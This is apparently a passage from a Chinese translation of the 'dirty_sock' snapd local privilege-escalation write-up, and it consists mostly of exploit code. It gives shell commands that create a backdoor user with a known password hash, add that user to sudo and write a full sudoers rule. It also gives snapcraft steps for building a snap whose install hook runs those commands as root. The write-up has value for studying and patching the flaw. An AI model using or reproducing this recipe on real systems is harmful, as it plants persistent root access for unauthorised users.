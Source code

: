 ```
useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" &gt;&gt; /etc/sudoers
```

上面中的加密字符串实际上是`dirty_sock`文本经过Python的`crypt.crypt()`函数处理后的结果。

创建该snap的具体命令如下所示，我们可以在开发主机（而非目标主机）上执行这些命令。snap创建完毕后，我们可以将其转换为base64文本，以便整合到完整的python利用代码中。

```
## Install necessary tools
sudo apt install snapcraft -y

## Make an empty directory to work with
cd /tmp
mkdir dirty_snap
cd dirty_snap

## Initialize the directory as a snap project
snapcraft init

## Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install

## Write the script we want to execute as root
cat &gt; snap/hooks/install &lt;&lt; "EOF"
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" &gt;&gt; /etc/sudoers
EOF

## Configure the snap yaml file
cat &gt; snap/snapcraft.yaml &lt;&lt; "EOF"
name: dirty-sock
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
EOF

## Build the snap
snapcraft
```
